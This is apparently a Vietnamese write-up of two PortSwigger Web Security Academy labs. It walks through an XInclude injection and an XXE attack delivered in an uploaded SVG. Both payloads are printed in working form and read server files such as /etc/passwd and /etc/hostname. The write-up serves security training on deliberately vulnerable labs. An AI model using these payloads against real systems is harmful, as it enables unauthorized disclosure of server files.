# [Lab 8: Exploiting XInclude to retrieve files](https://portswigger.net/web-security/xxe/lab-xinclude-attack)



> - **Mô tả lab:** Có tính năng `Check stock` nhúng thông tin đầu vào của người dùng vào bên trong tài liệu XML phía máy chủ mà sau đó được phân tích cú pháp. Bởi vì không kiểm soát toàn bộ tài liệu XML nên bạn không thể xác định DTD để khởi động một cuộc tấn công XXE cổ điển. 
> 
> - **Mục tiêu:** Thêm một câu lệnh `XInclude` để truy xuất nội dung của tệp `/etc/passwd`.

Tính năng `Check stock` không còn là cú pháp XML như các lab trước, thay vào đó thông tin này sẽ được nhúng vào XML bên phía máy chủ và được phân tích cú pháp sau đó, do đó ta không thể sửa đổi `DOCTYPE` như các lab trước đó.



Phản hồi có trả về lỗi



Do đó, ta cần thực hiện tấn công `XInclude` thay thế

    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/></foo>

- Tham chiếu XInclude: `<foo xmlns:xi="http://www.w3.org/2001/XInclude">`

- Cung cấp đường dẫn tới tệp muốn đọc: `<xi:include parse="text" href="file:///etc/passwd"/></foo>`



sovle the lab



> **Test bằng Active Scan**





# [Lab 9: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)



> - **Mô tả lab:** Cho phép người dùng đính kèm hình đại diện vào nhận xét và sử dụng thư viện Apache Batik để xử lý tệp hình ảnh đại diện.
> 
> - **Mục tiêu:**  Tải lên hình ảnh hiển thị nội dung của tệp `/etc/hostname` và submit nội dung đó.

fucntion `Post comment` chứa chức năng `Upload` đính kèm hình đại diện



Khi ta up một ảnh bất kỳ `jpeg hoặc pngg` thì sẽ thông báo `Avatar file is too large.` và ảnh không thể hiển thị



Vậy ta sẽ sử dụng ảnh `svg` để đọc file `/etc/hostname`

```
<?xml version="1.0" standalone="yes"?>

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

post comment chứa ảnh `svg` vừa tạo



update thành công



submit and solve the lab


